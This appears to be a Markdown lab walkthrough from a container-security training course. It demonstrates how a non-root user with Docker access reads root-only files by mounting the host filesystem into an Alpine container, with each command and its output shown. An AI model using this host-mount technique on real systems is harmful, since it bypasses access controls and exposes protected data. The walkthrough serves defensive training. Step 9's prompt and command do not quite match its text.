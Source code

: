 ## Authentication Attacks against Host

###### A `non-root user` with access to docker can gain access to root filesystem of the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host`

    ```commandline
    cd /home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host
    ```

##### Step 3:

* Run `sudo su` to become root user.

    ```commandline
      root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# sudo su
      root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
##### Step 4:

* Create a `secret.txt` file inside `/root/` directory.

    ```commandline
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# touch /root/secret.txt
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
##### Step 5:

* Open `secret.txt` and write some secret in it.

    **Note:** 
    1. `esc+i` to insert character into the file,
    2. `esc+:+wq` to save and exit from the file.

    ```commandline
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# vim /root/secret.txt
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
    
        
##### Step 6: 
  
* Run `sudo su user` login as a normal user.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# sudo su user
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$
    ```

##### Step 7: 
  
* Run `cat /root/secret.txt` read the content of secret.txt file.

    ```commandline
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$ cat /root/secret.txt
    cat: /root/secret.txt: Permission denied
    ```

##### Step 8:

* Run `exit` to exit as a normal user

    ```commandline
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$ exit
    exit
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# 
    ```

##### Step 9: 
* Run `docker run -ti --rm -v /:/hostFS/ alpine` as `docker-user`(non-root user)

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# docker run -ti -v /:/hostFS/ alpine
    / #     
    ```
    
##### Step 10:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    / # cd /hostFS/root/
    /hostFS/root # 
    ```
    
##### Step 11:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    /hostFS/root # ls
    secret.txt
    ``` 
    
##### Step 12:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret

``` 

**Note** : Now the docker-user has the privilege to view the root user data.


##### Step 13:

* Run `exit` to exit from the container.

    ```commandline
    /hostFS/root # exit
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```

##### Step 14:

* Run `clean-docker` to stop all containers.  

    ```commandline
    (venv)root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# clean-docker
    92200af86b18
    ca94dab2d52e
    92200af86b18
    34c4adcf326d
    86cd73d03ef1
    ca94dab2d52e
    "docker rmi" requires at least 1 argument.
    See 'docker rmi --help'.
    
    Usage:  docker rmi [OPTIONS] IMAGE [IMAGE...]
    
    Remove one or more images
    
    ```